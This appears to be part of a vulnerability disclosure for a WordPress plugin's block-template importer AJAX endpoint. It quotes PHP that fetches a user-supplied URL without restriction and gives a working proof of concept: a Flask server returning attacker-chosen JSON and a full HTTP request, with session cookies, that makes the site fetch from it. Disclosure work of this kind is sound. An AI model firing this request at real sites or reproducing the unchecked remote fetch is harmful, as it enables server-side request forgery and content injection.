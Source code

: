 ```php
$api_uri = isset( $_REQUEST['api_uri'] ) ? esc_url_raw( $_REQUEST['api_uri'] ) : '';
$request_params = array( '_fields' => 'original_content' );
$demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

$response = wp_remote_get( $demo_api_uri, $api_args );
```

Finally it decodes the response and returns JSON with the `original_content` key

```php
$data = json_decode( wp_remote_retrieve_body( $response ), true );
wp_send_json_success( $data['original_content'] );
```

`template_importer()` is registered as the callback for the action hook:

```php
add_action( 'wp_ajax_ast_block_templates_importer', array( $this, 'template_importer' ) );
```

Meaning, when accessing the endpoint `/wp-admin/admin-ajax/php` with `action=ast_block_templates_importer` the `template_importer()` function is invoked.
## Exploit

### Local Server
Create a simple local service with python

```py
from flask import Flask, jsonify, request, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/test')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "original_content": "XNXX.COM"
}
```

### Proof of Concept (PoC)

1. Create a post and obtain the `_ajax_nonce`
2. Send a request with `api_uri` pointing to the local service `http://127.0.0.1:8001/test` as a **Contributor** user

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, text/javascript, */*; q=0.01
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7Cf3dc677b2e483f598ad00a36fbd2f18ed1ed5015b39fc2df533aeb573a8dc3fd; wp-settings-time-2=1761027443; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7C1e8333233a2233576e988302d4f19d5c92470de4cc2bf4c1e31fb65788a44d35

action=ast_block_templates_importer&_ajax_nonce=3ef4c6d6df&api_uri=http://127.0.0.1:8001/test
```
